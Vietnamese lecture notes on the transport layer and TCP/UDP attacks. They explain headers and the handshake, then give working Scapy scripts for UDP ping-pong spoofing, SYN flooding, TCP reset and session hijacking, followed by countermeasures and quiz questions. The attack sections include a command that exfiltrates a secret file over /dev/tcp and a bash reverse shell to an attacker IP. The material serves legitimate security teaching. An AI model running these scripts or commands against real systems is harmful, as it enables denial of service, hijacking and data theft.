






# Bài 9: Transport Layer và Các Tấn Công

## 1. Tầng Transport (Transport Layer)

### 1.1 Vai trò của Tầng Transport

Tầng Transport cung cấp kênh giao tiếp logic giữa các tiến trình ứng dụng đang chạy trên các máy chủ khác nhau. Không giống tầng Network (IP) chỉ định tuyến gói tin giữa các máy, tầng Transport đảm bảo dữ liệu được truyền đúng đến tiến trình ứng dụng phù hợp.

**Phía gửi (Sender):**
- Nhận message từ tầng ứng dụng
- Xác định các trường trong header của segment
- Tạo segment và chuyển xuống tầng IP

**Phía nhận (Receiver):**
- Nhận segment từ tầng IP
- Kiểm tra các giá trị trong header
- Tái hợp (reassemble) các segment thành message
- Chuyển dữ liệu lên tầng ứng dụng qua socket

### 1.2 Port Numbers

Port number là một số 16-bit dùng để định danh tiến trình ứng dụng cụ thể trên một máy chủ.

| Phạm vi | Loại | Ví dụ |
|---|---|---|
| 0 – 1023 | Well-known ports | FTP (20,21), SSH (22), Telnet (23), SMTP (25), DNS (53), HTTP (80), HTTPS (443) |
| 1024 – 49151 | Less well-known ports | OpenVPN (1194), MS SQL (1433), Docker (2375-2377) |
| 49152 – 65535 | Private/Dynamic ports | Source ports của client |

!!! note "Tại sao cần quyền super-user để mở well-known ports?"
    Các cổng từ 0-1023 được bảo vệ bởi hệ điều hành. Chỉ tiến trình chạy với quyền root/superuser mới có thể bind vào các cổng này. Lý do là các cổng này thường gắn với các dịch vụ quan trọng (HTTP, SSH, DNS...), nếu để bất kỳ tiến trình nào cũng mở được thì kẻ tấn công có thể giả mạo dịch vụ hệ thống (ví dụ: tạo một HTTP server giả trên cổng 80 để đánh cắp thông tin).

### 1.3 So sánh TCP và UDP

| Đặc điểm | TCP | UDP |
|---|---|---|
| Kết nối | Connection-oriented | Connection-less |
| Ranh giới gói tin | Stream-based (không giữ ranh giới) | Giữ ranh giới gói tin |
| Độ tin cậy | Có (đảm bảo nhận đủ) | Không |
| Thứ tự | Có (đảm bảo đúng thứ tự) | Không |
| Tốc độ | Chậm hơn | Nhanh hơn |
| Broadcast | Không | Có |

---

## 2. UDP Protocol và Tấn Công

### 2.1 UDP Segment Header

UDP header rất đơn giản, chỉ gồm 8 bytes:

```
 0              15 16             31
+----------------+----------------+
|   Source Port  |  Dest Port     |
+----------------+----------------+
|    Length      |   Checksum     |
+----------------+----------------+
|           Data (Payload)        |
+---------------------------------+
```

- **Source Port (16 bit):** Cổng nguồn
- **Destination Port (16 bit):** Cổng đích
- **Length (16 bit):** Độ dài toàn bộ UDP segment (header + data), tính bằng byte
- **Checksum (16 bit):** Kiểm tra lỗi

### 2.2 Gửi/Nhận UDP bằng Python + Scapy

=== "UDP Client"
    ```python
    #!/usr/bin/python3
    import socket

    IP = "10.102.20.178"
    PORT = 9090
    data = b'Hello, World!'

    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.sendto(data, (IP, PORT))
    ```

=== "UDP Server"
    ```python
    #!/usr/bin/python3
    import socket

    IP = "0.0.0.0"
    PORT = 9090

    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.bind((IP, PORT))

    while True:
        data, (ip, port) = sock.recvfrom(1024)
        print(len(data))
        print("Sender: {} and Port: {}".format(ip, port))
        print("Received message: {}".format(data))
    ```

### 2.3 Ứng dụng của UDP

- **DNS Protocol:** Truy vấn DNS dùng UDP vì cần tốc độ nhanh, gói tin nhỏ
- **Video/Audio Streaming, Skype, Zoom:** Chấp nhận mất gói, ưu tiên thời gian thực
- **VPN Tunnel (OpenVPN):** Hiệu năng cao hơn TCP

!!! question "Câu hỏi: Netflix và YouTube dùng TCP hay UDP?"
    Dù là streaming, Netflix và YouTube dùng **TCP** (thông qua HTTPS/HTTP). Lý do:
    - Họ cần đảm bảo chất lượng video không bị lỗi (artifact) do mất gói
    - Họ dùng kỹ thuật buffering: tải trước nội dung, không cần real-time tuyệt đối
    - TCP hiện đại (với các tối ưu như BBR congestion control) đủ nhanh cho streaming

!!! question "Câu hỏi: UDP không đảm bảo thứ tự và xử lý mất gói. Ứng dụng có thể dùng UDP mà vẫn quan tâm đến mất gói không?"
    **Có.** Ứng dụng có thể tự triển khai cơ chế đảm bảo thứ tự và xử lý mất gói ở tầng ứng dụng (application layer). Ví dụ: QUIC protocol (dùng bởi HTTP/3) hoạt động trên UDP nhưng tự xây dựng cơ chế reliability, congestion control của riêng nó. Điều này cho phép kiểm soát tốt hơn, linh hoạt hơn so với phải dùng TCP.

### 2.4 UDP Ping-Pong Attack

**Nguyên lý:** Một số dịch vụ (ví dụ: daytime port 13, time port 37) luôn phản hồi bất kể nội dung gói tin nhận được. Nếu hai server như vậy bị lừa gửi gói tin cho nhau, chúng sẽ liên tục phản hồi lẫn nhau, tạo ra vòng lặp vô tận tiêu tốn băng thông.

**Cách khai thác (IP Spoofing):**
Kẻ tấn công gửi một gói UDP giả mạo:
- Source IP = IP của Server A, Source Port = cổng dịch vụ của A
- Destination IP = IP của Server B, Destination Port = cổng dịch vụ của B

Khi B nhận được, B phản hồi lại A. A nhận được phản hồi của B, lại gửi lại B. Vòng lặp bắt đầu.

```python
#!/usr/bin/python3
from scapy.all import *

print("Triggering UDP Ping Pong")
ip  = IP(src="10.102.20.177", dst="10.102.20.178")
udp = UDP(sport=9090, dport=9090)
data = "Let the Ping Pong game start!\n"
pkt = ip/udp/data
send(pkt, verbose=0)
```

!!! question "Câu hỏi: Cả hai server đều mở cùng port, nhưng không có ping-pong. Làm sao kích hoạt?"
    Phải dùng **IP spoofing**: tạo một gói UDP với **source IP là IP của Server A và source port là port của Server A**, gửi đến Server B. Server B sẽ tưởng A đã gửi cho nó và phản hồi lại A. A nhận được gói từ B (vì source port của gói đó khớp với port nó đang lắng nghe) và tiếp tục phản hồi B. Chuỗi phản ứng dây chuyền bắt đầu.

### 2.5 UDP Amplification Attack

**Ý tưởng:** Một số ứng dụng (game server như Quake, Battlefield...) trả lời bằng gói tin **lớn hơn nhiều** so với gói tin yêu cầu. Kẻ tấn công giả mạo IP nguồn là IP nạn nhân, gửi yêu cầu nhỏ đến nhiều server, server trả lời lớn về IP nạn nhân.

**Amplification Ratio (Hệ số khuếch đại băng thông):** Tỉ lệ giữa gói phản hồi và gói yêu cầu ban đầu.

| Protocol | Hệ số khuếch đại |
|---|---|
| NTP | 556.9x |
| CharGEN | 358.8x |
| QOTD | 140.3x |
| RIPv1 | 131.24x |
| DNS | 28-54x |
| LDAP | 46-55x |
| Quake Network Protocol | 63.9x |

!!! warning "Kết luận về UDP Attacks"
    Protocol càng phức tạp (trả lời bằng gói tin lớn, có nhiều chức năng), khả năng bị lạm dụng để tấn công càng cao.

---

## 3. TCP Protocol

### 3.1 Tổng quan TCP

TCP (Transmission Control Protocol) là giao thức cốt lõi của Internet, nằm trên tầng IP, cung cấp:
- **Virtual Connection:** Tạo kết nối logic giữa hai đầu
- **Maintaining Order:** Đảm bảo dữ liệu đến đúng thứ tự
- **Reliability:** Đảm bảo dữ liệu không bị mất
- **Flow Control:** Kiểm soát tốc độ truyền để tránh tràn bộ nhớ đệm

### 3.2 TCP Header

```
Bit 0         Bit 15  Bit 16        Bit 31
+---------------+-----+--------------+
|  Source Port  |     | Dest Port    |
+-------------------------------+-----+
|       Sequence Number (32)         |
+------------------------------------+
|    Acknowledgment Number (32)      |
+------+------+--------------------+-+
|Hdr   |Res.  |  Flags (6)         |Window (16)|
|Len(4)|  (6) |SYN FIN ACK RST PSH URG|
+------+------+--------------------+
|  Checksum (16)  | Urgent Ptr (16) |
+-----------------+-----------------+
|           Options (variable)      |
+------------------------------------+
```

**Giải thích các trường quan trọng:**

- **Sequence Number (32 bit):** Số thứ tự của byte đầu tiên trong segment này. Nếu bit SYN được set, đây là Initial Sequence Number (ISN).
- **Acknowledgment Number (32 bit):** Số thứ tự của byte tiếp theo mà bên gửi segment này mong nhận được. Chỉ có giá trị khi bit ACK được set.
- **Header Length (4 bit):** Độ dài header TCP tính theo đơn vị 32-bit word. Nhân với 4 để ra số byte.
- **Flags (6 bit):** SYN, FIN, ACK, RST, PSH, URG – mỗi cờ điều khiển một hành vi cụ thể của kết nối.
- **Window (16 bit):** Số byte mà bên gửi segment này sẵn sàng nhận (dùng cho flow control).
- **Checksum (16 bit):** Kiểm tra lỗi dựa trên một phần IP header, TCP header và data.
- **Urgent Pointer (16 bit):** Khi URG được set, chỉ ra vị trí kết thúc của dữ liệu khẩn cấp. Dữ liệu khẩn cấp được giao ngay cho ứng dụng, không chờ hàng đợi.

### 3.3 TCP Client/Server Program

=== "TCP Client (C)"
    ```c
    // Step 1: Tạo socket (SOCK_STREAM = TCP)
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);

    // Step 2: Thiết lập thông tin đích
    struct sockaddr_in dest;
    memset(&dest, 0, sizeof(struct sockaddr_in));
    dest.sin_family = AF_INET;
    dest.sin_addr.s_addr = inet_addr("10.0.2.17");
    dest.sin_port = htons(9090);

    // Step 3: Kết nối đến server (thực hiện 3-way handshake)
    connect(sockfd, (struct sockaddr *)&dest, sizeof(struct sockaddr_in));

    // Step 4: Gửi dữ liệu
    char *buffer1 = "Hello Server\n";
    write(sockfd, buffer1, strlen(buffer1));
    ```

=== "TCP Server (C)"
    ```c
    // Step 1: Tạo socket
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);

    // Step 2: Bind vào port
    struct sockaddr_in my_addr;
    memset(&my_addr, 0, sizeof(struct sockaddr_in));
    my_addr.sin_family = AF_INET;
    my_addr.sin_port = htons(9090);
    bind(sockfd, (struct sockaddr *)&my_addr, sizeof(struct sockaddr_in));

    // Step 3: Lắng nghe kết nối (queue size = 5)
    listen(sockfd, 5);

    // Step 4: Chấp nhận kết nối
    int client_len = sizeof(client_addr);
    int newsockfd = accept(sockfd, (struct sockaddr *)&client_addr, &client_len);

    // Step 5: Đọc/ghi dữ liệu
    char buffer[100];
    int len = read(newsockfd, buffer, 100);
    ```

**Xử lý nhiều kết nối cùng lúc (fork):**

```c
listen(sockfd, 5);
while (1) {
    newsockfd = accept(sockfd, ...);
    if (fork() == 0) {
        // Tiến trình con: xử lý kết nối này
        close(sockfd);
        // ... đọc/ghi dữ liệu
        close(newsockfd);
        return;
    } else {
        // Tiến trình cha: tiếp tục chờ kết nối mới
        close(newsockfd);
    }
}
```

### 3.4 TCP Send/Receive Buffers

Sau khi kết nối được thiết lập, OS cấp phát hai buffer ở mỗi đầu:



- **Send Buffer:** Ứng dụng đặt dữ liệu cần gửi vào đây. TCP lấy dữ liệu từ buffer này, đóng gói và gửi đi.
- **Receive Buffer:** TCP nhận gói tin, kiểm tra sequence number, đặt vào đúng vị trí trong buffer. Ứng dụng đọc từ buffer này; nếu không có dữ liệu, ứng dụng bị block.
- **Sequence Number:** Mỗi byte dữ liệu có một sequence number. Phía nhận dùng sequence number để ghép dữ liệu đúng thứ tự.
- **Acknowledgement:** Bên nhận thông báo cho bên gửi đã nhận đến byte nào.

!!! question "Câu hỏi: Hai chương trình trên cùng máy gửi dữ liệu đến cùng một TCP server – server có trộn dữ liệu của chúng không?"
    **Không.** TCP sử dụng **4-tuple (Source IP, Source Port, Dest IP, Dest Port)** để định danh từng kết nối (connection-oriented demultiplexing). Mỗi cặp client-server có một socket riêng biệt, dữ liệu không bị trộn lẫn.
    
    Ngược lại, **UDP server** nhận tất cả gói tin qua một socket duy nhất và phân biệt bằng source IP/port trong mỗi datagram. Dữ liệu của hai client sẽ đến cùng một socket theo thứ tự đến, có thể xen kẽ nhau, nhưng vì UDP giữ ranh giới gói tin (message boundary), ứng dụng vẫn đọc được từng datagram nguyên vẹn.

### 3.5 TCP 3-Way Handshake



**Chi tiết từng bước:**

1. **SYN:** Client gửi gói SYN với sequence number ngẫu nhiên `x` (ISN - Initial Sequence Number). Client chuyển sang trạng thái `SYN_SENT`.

2. **SYN-ACK:** Server nhận SYN, tạo **TCB (Transmission Control Block)** lưu thông tin kết nối, đặt vào **half-open connection queue**. Server gửi SYN-ACK với ISN của mình là `y` và ack=`x+1`. Server chuyển sang trạng thái `SYN_RECV`.

3. **ACK:** Client gửi ACK với ack=`y+1`. Server nhận ACK, lấy TCB ra khỏi half-open queue, chuyển sang **established connection queue**. Kết nối chính thức thiết lập, trạng thái `ESTABLISHED`.

!!! info "TCB và Half-open Connection Queue"
    - Khi server nhận SYN, nó tạo TCB và lưu vào **half-open queue** (SYN_RECV state). Đây là điểm yếu bị khai thác trong SYN Flood.
    - Nếu ACK không đến, server sẽ gửi lại SYN-ACK và cuối cùng xóa TCB sau một khoảng timeout.
    - Queue này có kích thước giới hạn – đây chính là điểm bị tấn công trong SYN Flooding.

---

## 4. Các Tấn Công TCP

### 4.1 TCP SYN Flooding Attack

**Mục tiêu:** Làm đầy half-open connection queue của server, khiến server không thể nhận thêm kết nối hợp lệ nào.

**Cơ chế:**



**Tại sao phải dùng source IP ngẫu nhiên?**
- Nếu dùng IP thật của mình, firewall dễ dàng chặn
- Nếu SYN-ACK đến máy thật (IP tồn tại), máy đó sẽ gửi RST, xóa TCB khỏi queue
- Với IP ngẫu nhiên không tồn tại, SYN-ACK bị drop, TCB nằm trong queue cho đến khi timeout

**Triển khai bằng Scapy:**

```python
#!/usr/bin/python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

a = IP(dst="10.102.20.178")
b = TCP(sport=1551, dport=23, seq=1551, flags='S')
pkt = a/b

while True:
    pkt['IP'].src = str(IPv4Address(getrandbits(32)))  # Random source IP
    send(pkt, verbose=0)
```

**Kết quả:**
- Server có hàng loạt kết nối ở trạng thái `SYN_RECV`
- CPU không tăng cao (server vẫn hoạt động bình thường)
- Chỉ dịch vụ bị tấn công (telnet port 23) không thể kết nối mới

### 4.2 SYN Cookies (Countermeasure)

SYN Cookie là giải pháp chống SYN Flooding bằng cách **không lưu TCB** cho đến khi handshake hoàn tất.

**Cơ chế hoạt động:**



- Nếu client là attacker: H không đến attacker, ACK không bao giờ đến
- Nếu client hợp lệ: gửi `H+1` trong ACK, server xác minh và tạo kết nối
- Server không tốn bộ nhớ cho half-open connections giả mạo

```bash
# Bật SYN Cookie
sudo sysctl -w net.ipv4.tcp_syncookies=1

# Tắt SYN Cookie (để thử nghiệm tấn công)
sudo sysctl -w net.ipv4.tcp_syncookies=0
```

### 4.3 TCP Reset Attack

**Mục tiêu:** Ngắt kết nối TCP đang hoạt động giữa hai bên A và B.

**Cơ chế đóng kết nối bình thường (FIN):**
```
A → B: FIN (seq=x)
B → A: ACK (ack=x+1)
B → A: FIN (seq=y)
A → B: ACK (ack=y+1)
```

**Cơ chế Reset:** Một bên gửi gói RST để lập tức cắt kết nối, không cần ACK.

**Tấn công:** Kẻ tấn công giả mạo (spoof) gói RST từ A gửi đến B:

Các trường cần thiết trong gói RST giả:
- Source IP = IP của A
- Source Port = Port của A
- Destination IP = IP của B
- Destination Port = Port của B
- **Sequence Number** nằm trong cửa sổ nhận (receive window) của B

**Làm sao lấy sequence number?** Dùng Wireshark để sniff traffic, lấy `Next Sequence Number` từ gói tin hiện tại.

**Code tấn công (Scapy):**

```python
#!/usr/bin/python3
import sys
from scapy.all import *

def spoof(pkt):
    old_tcp = pkt[TCP]
    ip  = IP(src="10.102.20.178", dst="10.102.20.177")
    tcp = TCP(sport=23, dport=old_tcp.sport, flags="R", seq=old_tcp.ack)
    pkt = ip/tcp
    send(pkt, verbose=0)

myFilter = 'tcp and src host 10.102.20.177 and dst host 10.102.20.178 and dst port 23'
sniff(filter=myFilter, prn=spoof)
```

Script này lắng nghe traffic Telnet, khi thấy gói tin từ client đến server, tự động tạo gói RST giả mạo để reset kết nối.

!!! info "TCP Reset Attack trên SSH"
    SSH mã hóa ở tầng Transport, nên **payload được mã hóa** nhưng **TCP header vẫn để nguyên (plaintext)**. Vì tấn công RST chỉ cần thông tin trong header (IP, port, sequence number), tấn công vẫn thành công dù kết nối dùng SSH.
    
    Ngược lại, nếu mã hóa được thực hiện ở tầng Network (như IPSec), toàn bộ TCP packet kể cả header sẽ bị mã hóa, khiến tấn công sniff/spoof không thể thực hiện.

**TCP Reset Attack trên Video Streaming:**
- Sequence number tăng rất nhanh (lượng dữ liệu lớn)
- Dùng `netwox 78` để tự động reset mọi packet từ một IP:

```bash
sudo netwox 78 --filter "src host 10.0.2.18"
```

### 4.4 TCP Session Hijacking Attack

**Mục tiêu:** Chèn dữ liệu giả mạo vào một kết nối TCP đang tồn tại, thực thi lệnh tùy ý trên server.

**Điều kiện:** Cần biết chính xác:
- Source IP, Source Port
- Destination IP, Destination Port
- **Sequence Number** đúng (trong receive window)
- **Acknowledgment Number** đúng

**Vấn đề Sequence Number:**

```
[Dữ liệu đã nhận] [Vị trí x] [Dữ liệu chờ từ x+1]
                               ^
                          Sequence number tiếp theo
```

Nếu gói giả mạo dùng sequence number `x + δ`:
- Dữ liệu sẽ được chèn vào vị trí `x + δ` trong receive buffer
- `δ` bytes trống sẽ bị bỏ qua (waiting state)
- Nếu `δ` quá lớn, gói tin bị loại bỏ (out of window)

**Kịch bản tấn công – Đánh cắp file bí mật:**

1. Trên máy attacker, mở listener:
```bash
nc -lv 9090
```

2. Gói tin hijack thực thi lệnh trên server:
```bash
cat /home/seed/secret > /dev/tcp/10.0.2.70/9090
```

Lệnh này đọc file `secret` và gửi nội dung qua TCP connection đến máy attacker (qua `/dev/tcp/` – pseudo-device trong Linux).

**Code tấn công:**

```python
#!/usr/bin/python3
from scapy.all import *

print("SENDING SESSION HIJACKING PACKET")
ip  = IP(src="10.102.20.177", dst="10.102.20.178")
tcp = TCP(sport=41270, dport=23, flags="A",
          seq=187289924, ack=4108055674)
data = "\r cat /home/seed/secret > /dev/tcp/10.102.20.154/9090 \r"
pkt = ip/tcp/data
send(pkt, verbose=0)
```

**Điều gì xảy ra với session sau khi tấn công?**

Sau khi attacker chèn gói tin giả, sequence number của attacker và client sẽ lệch nhau. Server nhận được payload từ attacker với sequence number mới, cập nhật trạng thái. Client tiếp tục gửi packet với sequence number cũ (không biết về packet của attacker), server bỏ qua vì coi là duplicate. Kết quả: **cả client và server rơi vào deadlock** – kết nối Telnet bị đóng băng, không dùng được nữa.

### 4.5 Reverse Shell

**Động lực:** Sau khi hijack session, ta muốn chạy lệnh tùy ý lâu dài, không chỉ một lệnh đơn lẻ. Reverse shell cho phép attacker có một shell tương tác trên máy nạn nhân.

**Khái niệm File Descriptor:**

| FD | Thiết bị | Ý nghĩa |
|---|---|---|
| 0 | stdin | Đầu vào chuẩn |
| 1 | stdout | Đầu ra chuẩn |
| 2 | stderr | Đầu ra lỗi |

**Lệnh Reverse Shell:**

```bash
/bin/bash -i > /dev/tcp/10.0.2.70/9090 2>&1 0<&1
```

Giải thích từng phần:

- `/bin/bash -i`: Chạy bash ở chế độ interactive (tương tác)
- `> /dev/tcp/10.0.2.70/9090`: Redirect stdout (fd 1) đến TCP connection đến attacker:9090
- `2>&1`: Redirect stderr (fd 2) đến fd 1 (tức là cũng gửi về TCP connection)
- `0<&1`: Redirect stdin (fd 0) đọc từ fd 1 (tức là đọc lệnh từ TCP connection)



**Kết quả:** Attacker gõ lệnh vào `nc`, lệnh được truyền qua TCP đến `bash` trên server, output được truyền ngược lại cho attacker. Attacker có toàn quyền điều khiển shell trên server.

### 4.6 The Mitnick Attack

The Mitnick Attack là tấn công kết hợp nhiều kỹ thuật, được thực hiện bởi Kevin Mitnick (hacker nổi tiếng) năm 1994 nhắm vào hệ thống của Tsutomu Shimomura.

**Các kỹ thuật kết hợp:**
- IP Spoofing
- TCP Sequence Number Prediction
- SYN Flooding (để vô hiệu hóa trusted host)
- Session Hijacking

**Tổng quan tấn công:**

Mục tiêu khai thác cơ chế **trust relationship**: Server X tin tưởng Server Y (dùng `rsh`/`rlogin` – remote shell không cần password nếu từ trusted IP).



---

## 5. Countermeasures (Biện Pháp Phòng Chống)

### 5.1 Chống SYN Flooding

- **SYN Cookies:** Không lưu trạng thái cho đến khi handshake hoàn tất (xem mục 4.2)
- **Increase backlog queue size:** Tăng kích thước half-open queue
- **Reduce SYN-ACK retransmit timeout:** Giảm thời gian giữ TCB trong queue
- **Firewall / Rate limiting:** Giới hạn số SYN từ một IP trong khoảng thời gian

### 5.2 Chống TCP Reset và Session Hijacking

- **Ngẫu nhiên hóa Source Port (16 bit):** Khó đoán hơn
- **Ngẫu nhiên hóa Initial Sequence Number (32 bit):** Khó giả mạo sequence number
  
!!! warning "Hạn chế"
    Các biện pháp trên không hiệu quả với **local attacks** – kẻ tấn công cùng mạng vẫn có thể sniff traffic để lấy thông tin chính xác.

- **Mã hóa payload:**
    - Attacker cần biết khóa mã hóa để giải mã và tái tạo session
    - Mã hóa ở tầng Transport (TLS/SSL): Header TCP vẫn có thể bị đọc (như SSH), nhưng payload được bảo vệ
    - Mã hóa ở tầng Network (IPSec): Cả header TCP cũng được bảo vệ

!!! success "Kết luận quan trọng"
    **Mã hóa là một trong những giải pháp nền tảng nhất** để phòng chống các tấn công trên Internet. Nó không chỉ bảo vệ nội dung mà còn ngăn chặn khả năng sniff và spoof của kẻ tấn công.

---

## 6. Câu Hỏi Trắc Nghiệm

**Câu 1.** Tầng Transport cung cấp giao tiếp logic giữa:

- A. Hai router trong mạng
- B. Các tiến trình ứng dụng chạy trên các máy khác nhau
- C. Hai card mạng vật lý
- D. Tầng Network và tầng Application

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Tầng Transport cung cấp logical communication giữa các **application processes** trên các host khác nhau, không phải giữa các host (đó là tầng Network).

---

**Câu 2.** Port number nằm trong dải 0-1023 được gọi là gì?

- A. Private ports
- B. Dynamic ports
- C. Well-known ports
- D. Registered ports

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
